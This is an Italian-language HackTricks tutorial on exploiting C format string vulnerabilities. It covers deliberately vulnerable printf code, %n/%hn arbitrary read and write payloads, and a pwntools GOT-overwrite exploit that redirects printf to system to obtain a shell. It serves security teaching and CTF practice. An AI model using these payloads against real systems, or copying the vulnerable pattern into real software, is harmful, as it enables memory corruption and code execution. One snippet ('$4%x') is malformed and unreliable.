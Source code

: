 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

In C **`printf`** è una funzione che può essere utilizzata per **stampare** una stringa. Il **primo parametro** che questa funzione si aspetta è il **testo grezzo con i formattatori**. I **parametri seguenti** attesi sono i **valori** da **sostituire** ai **formattatori** nel testo grezzo.

La vulnerabilità appare quando un **testo dell'attaccante viene utilizzato come primo argomento** per questa funzione. L'attaccante sarà in grado di creare un **input speciale abusando** delle capacità della **stringa di formato printf** per leggere e **scrivere qualsiasi dato in qualsiasi indirizzo (leggibile/scrivibile)**. Essere in grado in questo modo di **eseguire codice arbitrario**.

#### Formattatori:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Esempi:**

* Esempio vulnerabile:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normale:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Con argomenti mancanti:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
### **Accessing Pointers**

Il formato **`%<n>$x`**, dove `n` è un numero, consente di indicare a printf di selezionare il n-esimo parametro (dallo stack). Quindi, se vuoi leggere il 4° parametro dallo stack usando printf, potresti fare:
```c
printf("%x %x %x %x")
```
e potresti leggere dal primo al quarto parametro.

Oppure potresti fare:
```c
printf("$4%x")
```
e leggere direttamente il quarto.

Nota che l'attaccante controlla il parametro `pr`**`intf`**, il che significa fondamentalmente che** il suo input sarà nello stack quando viene chiamato `printf`, il che significa che potrebbe scrivere indirizzi di memoria specifici nello stack.

{% hint style="danger" %}
Un attaccante che controlla questo input sarà in grado di **aggiungere indirizzi arbitrari nello stack e far accedere `printf` a essi**. Nella sezione successiva verrà spiegato come utilizzare questo comportamento.
{% endhint %}

## **Lettura Arbitraria**

È possibile utilizzare il formattatore **`$n%s`** per far sì che **`printf`** ottenga l'**indirizzo** situato nella **n posizione**, seguendolo e **stamparlo come se fosse una stringa** (stampa fino a quando non viene trovato un 0x00). Quindi, se l'indirizzo base del binario è **`0x8048000`**, e sappiamo che l'input dell'utente inizia nella quarta posizione nello stack, è possibile stampare l'inizio del binario con:
```python
from pwn import *

p = process('./bin')

payload = b'%6$p' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Nota che non puoi mettere l'indirizzo 0x8048000 all'inizio dell'input perché la stringa verrà tagliata a 0x00 alla fine di quell'indirizzo.
{% endhint %}

## **Scrittura Arbitraria**

Il formatter **`$<num>%n`** **scrive** il **numero di byte scritti** nell'**indirizzo indicato** nel parametro \<num> nello stack. Se un attaccante può scrivere quanti più caratteri possibile con printf, sarà in grado di far scrivere a **`$<num>%n`** un numero arbitrario in un indirizzo arbitrario.

Fortunatamente, per scrivere il numero 9999, non è necessario aggiungere 9999 "A" all'input; per farlo è possibile utilizzare il formatter **`%.<num-write>%<num>$n`** per scrivere il numero **`<num-write>`** nell'**indirizzo puntato dalla posizione `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Tuttavia, nota che di solito per scrivere un indirizzo come `0x08049724` (che è un numero ENORME da scrivere tutto in una volta), **si usa `$hn`** invece di `$n`. Questo consente di **scrivere solo 2 Byte**. Pertanto, questa operazione viene eseguita due volte, una per i 2B più alti dell'indirizzo e un'altra volta per i più bassi.

Pertanto, questa vulnerabilità consente di **scrivere qualsiasi cosa in qualsiasi indirizzo (scrittura arbitraria).**

In questo esempio, l'obiettivo sarà **sovrascrivere** l'**indirizzo** di una **funzione** nella tabella **GOT** che verrà chiamata successivamente. Anche se questo potrebbe abusare di altre tecniche di scrittura arbitraria per eseguire:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Stiamo per **sovrascrivere** una **funzione** che **riceve** i suoi **argomenti** dall'**utente** e **puntarla** alla **funzione** **`system`**.\
Come accennato, per scrivere l'indirizzo, di solito sono necessari 2 passaggi: **prima scrivi 2Byte** dell'indirizzo e poi gli altri 2. Per farlo si usa **`$hn`**.

* **HOB** si riferisce ai 2 byte più alti dell'indirizzo
* **LOB** si riferisce ai 2 byte più bassi dell'indirizzo

Poi, a causa di come funziona la stringa di formato, devi **scrivere prima il più piccolo** di \[HOB, LOB] e poi l'altro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modello Pwntools

Puoi trovare un modello per preparare un exploit per questo tipo di vulnerabilità in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

O questo esempio di base da [**qui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Altri Esempi & Riferimenti

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, no relro, no canary, nx, no pie, uso base delle stringhe di formato per leakare il flag dallo stack (non è necessario alterare il flusso di esecuzione)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per sovrascrivere l'indirizzo `fflush` con la funzione win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, no canary, nx, no pie, stringa di formato per scrivere un indirizzo dentro main in `.fini_array` (così il flusso torna indietro un'altra volta) e scrivere l'indirizzo a `system` nella tabella GOT puntando a `strlen`. Quando il flusso torna a main, `strlen` viene eseguito con input dell'utente e puntando a `system`, eseguirà i comandi passati.

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
